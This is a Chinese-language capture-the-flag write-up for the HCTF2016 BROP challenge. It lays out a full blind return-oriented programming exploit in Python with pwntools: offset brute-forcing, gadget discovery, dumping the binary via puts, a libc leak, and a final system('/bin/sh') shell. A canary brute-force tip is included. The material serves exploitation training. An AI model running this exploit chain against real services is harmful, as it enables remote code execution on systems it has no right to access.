




#HCTF2016-BROP
题目并没有给原文件，那么就必须采取爆破的方式将我们想要的信息都给猜出来。  
解题大概思路：  
1、求出栈溢出的偏移。  
2、求出一个正常返回到main的函数位置。（来判断下面穷举时的代码）。  
3、因为__libc_csu_init一般都会用到，其中的通用gadgets在程序的其他位置中也并不常见，因此也将其作为猜解的目标。求出通用gadgets的位置。    
4、确定put函数的位置。  
5、得到put函数之后将前面的文件dump下来，求出got表中的位置，再求出加载的实际位置。  
6、确定libc，求出system函数和/bin/sh的位置。
7、利用。


ps:如果存在canary，canary在程序重启后不变，那么可以按字节对canary进行爆破。比如先尝试改变第一个字节，如果程序不能继续跑起来，就说明第一个字节不对，如果程序能跑起来，就说明第一个字节正确，继续跑下一个字节  


###求栈溢出的偏移
```
def search_offset():
        i = 1
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        payload = i * 'a'
                        sh.send(payload)
                        output = sh.recv()
                        sh.close()
                        i = i + 1
                except  Exception:
                        sh.close()
                        return i - 1
```
###求出一个可以正常返回到main函数的地址
```
def stop_gadgets():
        #addr = 0x4006b2
        addr = 0x400000
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        break
                except Exception:
                        addr = addr + 1
                        sh.close()
```
###求出通用gadgets的位置，为了与返回到main函数的gadget作区分，还要做一个判断
```
def find_brop_gadgets():
        addr = 0x4007b0
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        payload += p64(1) * 6
                        payload += p64(stop_gadget)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        return addr
                except Exception:
                        addr = addr + 1
                        sh.close()

def check_brop_gadgets():
        print hex(addr)
        try:
                sh = remote("127.0.0.1",9999)
                payload = 'a' * 72
                payload += p64(addr) + p64(1)*7
                sh.recvuntil("WelCome my friend,Do you know password?\n")
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'false'
        except Exception:
                print 'true'
```
###确定put函数在plt中的位置
```
def find_put_plt():
        addr = 0x400550
        while 1:
                try:
                        payload = 72 * 'a'
                        payload += p64(brop_gadget+9)
                        payload += p64(0x400000)
                        payload += p64(addr)
                        payload += p64(stop_gadget)
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        output = sh.recv()
                        sh.close()
                        if output.startswith('\x7fELF'):
                                print 'the addr is :0x%x' % (addr)
                                return addr
                        else:
                                addr = addr + 1
                except Exception:
                        sh.close()
                        addr = addr + 1
```
这里存在两个知识点。
1、指向 pop r15的地址再往后一个字节就可以变成 pop rdi  
具体可以看一下两条汇编指令的机器码
  
pop r15 在brop_gadgets+8处，因此 pop rdi在brop_gadgets+9处  
同理也可以控制rsi
 
2、求出来的put地址是 0x400555，但其实put函数在plt中的实际位置是0x400560，当然使用求出来的地址也无所谓  
 

###利用put函数把二进制文件dump下来，从而找到put函数在got表中的地址  
```
def leak():
	addr = 0x400000
	result = ""
	while (addr<0x400700):
		payload = 72 * 'a'
		payload += p64(brop_gadget+9)
		payload += p64(addr)
		payload += p64(put_gadget)
		payload += p64(stop_gadget)
		sh = remote("127.0.0.1",9999)
		sh.recvuntil("WelCome my friend,Do you know password?\n")
		sh.send(payload)
		try:
			data = sh.recv()
			sh.close()
			try:
				data = data[:data.index("\nWelCome")] 
			except Exception:
				data = data
			if (data == ""):
				data = '\x00'
		
		except Exception:
			sh.close()
			continue;
		result += data
		addr = addr + len(data)
	with open('leak_code', 'wb') as f:
    		f.write(result)
	print 'success'
```
利用ida查看二进制文件，得到地址  
 
可以看到 put在got表中的地址为0x601018  
然后找到对应的libc库 ，利用偏移找到真正的system地址和/bin/sh地址，在进行利用
```
sys_addr = 0
bin_addr = 0
offset = 72
brop_gadget = 0x4007ba
stop_gadget = 0x4006b6
put_gadget = 0x400555
put_got = 0x601018

payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(put_got)
payload += p64(put_gadget)
payload += p64(stop_gadget)
sh = remote("127.0.0.1",9999)
sh.recvuntil("password?\n")	
sh.sendline(payload)
data = sh.recv()
put_addr = u64(data.ljust(8, '\x00'))	
libc = LibcSearcher('puts',put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
bin_addr = libc_base + libc.dump('str_bin_sh')	
	
#addr = find_brop_gadgets() 
payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(bin_addr)
payload += p64(sys_addr)
payload += p64(stop_gadget)
sh.recvuntil("password?\n")
sh.sendline(payload)
sh.interactive()
```